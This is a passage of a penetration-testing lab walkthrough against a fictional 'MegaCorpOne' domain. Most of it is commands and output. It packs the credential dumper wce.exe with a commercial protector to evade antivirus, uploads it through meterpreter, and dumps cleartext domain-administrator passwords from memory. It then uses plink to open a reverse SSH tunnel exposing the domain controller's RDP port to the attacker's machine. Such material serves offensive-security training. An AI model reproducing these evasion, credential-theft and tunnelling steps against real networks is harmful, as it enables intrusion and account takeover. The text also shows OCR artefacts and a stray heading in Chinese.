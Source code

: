 Because of anti-virus, we protect the wce.exe file with a commercial software
protector to avoid it being flagged as malicious. The Enigma Protector

meterpreter \> upload /var/www/wce_protected.exe c:\\\\Windows\\\\temp

Once uploaded, we run wce.exe with local administrator rights. Any lingering
Windows session credentials are dumped from memory to the console, in this case
revealing the domain administrator password.

C:\\Users\\mike\\Documents\>wce_protected.exe –w

WCE v1.3beta (X64) (Windows Credentials Editor) - (c) 2010,2011,2012 Amplia
Security

\- by Hernan Ochoa (hernan\@ampliasecurity.com)

Use -h for help.

Administrator\\MEGACORPONE:Ub3r53cr3t0fm1ne

Administrator\\CITRIX:sup3r53cr3tGP0pa55

administrator\\CITRIX:sup3r53cr3tGP0pa55

mike\\MEGACORPONE:SmcyHxbo!

Ctx_StreamingSvc\\CITRIX:sda{AaJ2jm8fx.

使用域管凭据登录域控

To do this, we create a new HTTP encapsulated SSH tunnel from Mike’s machine,
which will expose the Domain Controller’s RDP port to our attacking Kali box on
port 3390, localhost.

C:\\Windows\\Temp\>plink -l root -pw 23847sd98sdf987sf98732 -R
3390:10.20.0.21:3389 127.0.0.1 -P 3000

![](media/4fe9a8d56664d2ee12f526d940d150a6.png)

The Network Has Been Completely Compromised

